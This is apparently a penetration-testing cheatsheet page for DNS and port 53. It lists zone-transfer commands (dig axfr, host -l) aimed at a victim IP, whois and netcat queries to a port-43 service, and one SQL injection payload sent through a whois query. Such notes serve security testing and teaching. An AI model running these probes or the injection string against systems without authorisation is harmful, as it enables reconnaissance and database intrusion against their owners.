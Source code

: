 ```yaml
---
title: "PORT 53 - DNS"
draft: false
images: []
description: "DNS Cheatsheet"
lead: "DNS Cheatsheet"
menu:
  docs:
    parent: "Ports"
weight: 53
toc: true
---
```


```dig axfr @<ip-victim> <domain>

host -l <domain> <ip-victim>

whois -h 10.10.1.111 -p 43 "domain.com"

echo "domain.com" | nc -vn 10.10.1.111 43

whois -h 10.10.1.111 -p 43 "a') or 1=1#"
```